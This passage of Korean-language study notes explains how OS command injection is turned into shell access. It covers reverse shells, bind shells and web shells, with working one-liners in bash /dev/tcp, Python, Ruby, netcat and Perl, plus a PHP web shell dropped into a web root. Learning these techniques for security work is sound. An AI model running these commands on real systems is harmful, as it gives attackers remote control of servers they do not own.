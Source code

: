                 + **```/dev/tcp``` 또는 ```/dev/udp``` 장치 경로**를 사용해 포트를 서비스하는 서버에 공격 대상의 서버를 실행시킬 수 있음 <br/> &nbsp;&nbsp; → 경로를 입력한 IP 주소를 가진 서버에서 특정 포트를 열고 기다린 후 명령어를 실행하면 쉘을 획득할 수 있음
                + 예시
                    - 공격 대상 서버 (victim)
                        ```linux
                        /bin/sh -i >& /dev/tcp/127.0.0.1/8080 0>&1
                        /bin/sh -i >& /dev/udp/127.0.0.1/8080 0>&1
                        ```
                    - 공격자 서버 (attacker)
                        ```linux
                        $ nc -l -p 8080 -k -v
                        Listening on [0.0.0.0] (family 0, port 8080)
                        Connection from [127.0.0.1] port 8080 [tcp/http-alt] accepted (family 2, sport 42202)
                        $ id
                        uid=1000(user1) gid=1000(user1) groups=1000(user1)
                        ```
                        + 127.0.0.1(IP 주소)를 가진 공격자 서버는 8080번 포트를 열고 공격 전에 미리 대기하고 있어야 함 <br/> &nbsp;&nbsp; → 연결을 맺게 되면 명령어를 실행하면 쉘을 획득할 수 있음
            - 특정 언어를 이용하는 방법
                + **command line에서 코드를 실행할 수 있는 Python, Rudy 등의 언어**를 이용하여 command line에서 소켓을 사용해 리버스 쉘 공격을 수행함
                + 예시: command line에 아래의 Python/Ruby 코드를 입력함
                    - Python
                        ```python
                        python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
                        ```
                    - Ruby
                        ```ruby
                        ruby -rsocket -e 'exit if fork;c=TCPSocket.new("127.0.0.1","8000");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
                        ```
        + **Bind Shell**(바인드 쉘): 취약점이 발생하는 서버(공격 대상 서버)에서 특정 포트로 쉘을 서비스하는 것 *→ Network Inbound*
            - nc(netcat)를 이용하는 방법
                + 버전에 따라 특정 포트에 임의 서비스를 등록할 수 있도록 제공하는 **```-e``` 옵션을 이용**해 포트를 열고 ```/bin/sh```를 실행시킴 <br/> &nbsp;&nbsp; ↳ *버전에 따라 ```-e``` 옵션을 지원하지 않을 수도 있음*
                + 예시
                    ```linux
                    nc -nlvp 8080 -e /bin/sh
                    ncat -nlvp 8080 -e/bin/sh
                    ```
            - 특정 언어(perl)를 이용하는 방법
                + 펄 스크립트를 작성해서 특정 포트를 쉘(```/bin/sh```)와 함께 바인딩할 수 있음
                + 예시
                    ```perl
                    perl -e 'use Socket;$p=51337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));bind(S,sockaddr_in($p, INADDR_ANY));listen(S,SOMAXCONN);for(;$p=accept(C,S);close C){open(STDIN,">&C");open(STDOUT,">&C");open(STDERR,">&C");exec("/bin/bash -i");};'
                    ```
    - **파일 생성**: 어플리케이션 상에서 직접 확인할 수 있는 파일 시스템 경로 또는 어플리케이션 로직을 통해 확인할 수 있는 공간에 명령어의 실행 결과를 저장한 파일을 생성하는 방법
        + **Script Engine**: 웹 루트 하위에 있는 폴더에 php/jsp/asp와 같은 **해석 가능한 파일을 만들어** 웹쉘 형태로 접근하는 방식
            - 웹 서버가 지정한 경로를 알고 있고, 해당 경로에 파일 생성 권한이 있을 때 사용할 수 있음
            - 웹 서버가 지정된 경로에 존재하는 파일을 브라우저에 표시한다는 점을 이용함 <br/> &nbsp;&nbsp; → 웹셸 파일을 업로드한 후 해당 페이지에 접속해 쉘을 실행하여 그 결과를 확인함
            - 예시: 웹 서버에서 지정한 경로가 ```/var/www/html```이고, 해당 디렉터리에 파일 생성 권한이 존재하는 경우
                ```
                printf '<?=system($_GET[0])?>' > /var/www/html/uplaods/shell.php
                ```
                + ```{접속경로}/uploads/shell.php?0={명령어}```를 브라우저를 통해 방문하면 명령어의 실행 결과를 확인할 수 있음
        + **Static File Directory**: Static File Directory에 OS 명령어의 결과를 파일로 생성시킨 후 접근하는 방식
            - 프레임워크 또는 다양한 웹 어플리케이션에서 JS/CSS/Img 등의 정적 리소스를 다루기 위해 사용하는 Static File Directory에 파일 생성 권한이 있어야 사용할 수 있음
                + 파이썬 Flask 프레임워크는 기본적으로 ```static```이 Static File Directory의 이름으로 설정되어 있음